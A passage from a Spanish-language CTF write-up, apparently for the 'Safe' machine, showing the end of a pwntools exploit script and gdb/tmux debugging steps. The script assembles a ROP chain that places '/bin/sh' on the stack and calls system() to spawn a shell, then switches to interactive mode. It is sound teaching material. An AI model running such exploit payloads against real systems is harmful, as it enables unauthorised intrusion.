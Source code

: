 ```python

# test -> Finalmente, una vez lo tenemos todo preparado llamaremos a la función test(), es decir:
	# 1.- La cadena "/bin/sh" está al prinicipio de la pila "RSP" por lo cuando llegue a la intrucción de la función test(): "MOV   RDI,RSP" cargará en RDI la cadena "/bin/sh" y por lo tanto system() obtendrá como argumento lo que ahí en RDI ("/bin/sh").
	# 2.- En r13 se encuentra la llamada a la función system() gracias al "pop r13" realizado.

payload = junk + bin_sh + pop_r13 + system_plt + null + null + test

# Enviaremos el payload ya sea en local o en remoto según hayamos configurado, es decir según que líneas no esten comentadas.
p.sendline(payload)
# Finalmente gracias a pwntools intentaremos entrar en modo interactivo.
p.interactive()
```

Antes de intentar obtener la `/bin/sh` comprobaremos si todo está funcionando correctamente. En primer lugar, abriremos **tmux** en una nueva terminal (en caso de no tenerlo instalado `apt install tmux`) y finalmente correremos el exploit.

Nos dirigimos a la ventana de **tmux** y veremos que el flujo del programa está detenido en la función **\_start** por lo que seguiremos con el flujo del programa (`continue`) hasta llegar al **breakpoint** en la función **test**.

![](<../assets/images/posts/2025-04-03-safe/Pasted image 20241231193737.png>)

Veremos que al continuar con el flujo del programa se detiene el la función **test**.
![](<../assets/images/posts/2025-04-03-safe/Pasted image 20241231194103.png>)

